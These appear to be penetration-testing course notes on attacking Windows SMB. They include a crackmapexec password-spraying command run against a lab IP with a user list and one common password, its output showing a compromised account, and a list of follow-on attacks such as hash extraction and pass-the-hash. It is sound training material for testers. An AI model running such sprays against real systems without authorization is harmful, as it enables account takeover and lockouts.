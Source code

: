 ## Protocol Specifics Attacks
* If a null session is not enabled, we will need credentials to interact with the SMB protocol
* [brute forcing](https://en.wikipedia.org/wiki/Brute-force_attack) and [password spraying](https://owasp.org/www-community/attacks/Password_Spraying_Attack)

#### Brute Forcing and Password Spray
* Try as many passwords as possible against an account
* Can lock out an account if threshold hit
* Password spraying better way since we can target a list of usernames with one common password to avoid account lockouts
* We can try more than one password if we know the account lockout threshold
* We can use [CME](https://wiki.porchetta.industries/getting-started/using-credentials)

```sh
cat /tmp/userlist.txt

Administrator
jrodriguez 
admin
<SNIP>
jurena
```

```sh
crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!' --local-auth

SMB         10.10.110.17 445    WIN7BOX  [*] Windows 10.0 Build 18362 (name:WIN7BOX) (domain:WIN7BOX) (signing:False) (SMBv1:False)
SMB         10.10.110.17 445    WIN7BOX  [-] WIN7BOX\Administrator:Company01! STATUS_LOGON_FAILURE 
SMB         10.10.110.17 445    WIN7BOX  [-] WIN7BOX\jrodriguez:Company01! STATUS_LOGON_FAILURE 
SMB         10.10.110.17 445    WIN7BOX  [-] WIN7BOX\admin:Company01! STATUS_LOGON_FAILURE 
SMB         10.10.110.17 445    WIN7BOX  [-] WIN7BOX\eperez:Company01! STATUS_LOGON_FAILURE 
SMB         10.10.110.17 445    WIN7BOX  [-] WIN7BOX\amone:Company01! STATUS_LOGON_FAILURE 
SMB         10.10.110.17 445    WIN7BOX  [-] WIN7BOX\fsmith:Company01! STATUS_LOGON_FAILURE 
SMB         10.10.110.17 445    WIN7BOX  [-] WIN7BOX\tcrash:Company01! STATUS_LOGON_FAILURE 

<SNIP>

SMB         10.10.110.17 445    WIN7BOX  [+] WIN7BOX\jurena:Company01! (Pwn3d!) 
```

* `--local-auth` authenticate locally to each target - continues authentication attempts even after successes

**Note:** By default CME will exit after a successful login is found. Using the `--continue-on-success` flag will continue spraying even after a valid password is found. It is very useful for spraying a single password against a large user list. 

#### SMB
* When attacking a Windows SMB Server, our actions will be limited by the privileges we had on the user we manage to compromise
* If this user is an Administrator or has specific privileges, we will be able to perform operations such as:
	-   Remote Command Execution
	-   Extract Hashes from SAM Database
	-   Enumerating Logged-on Users
	-   Pass-the-Hash (PTH)
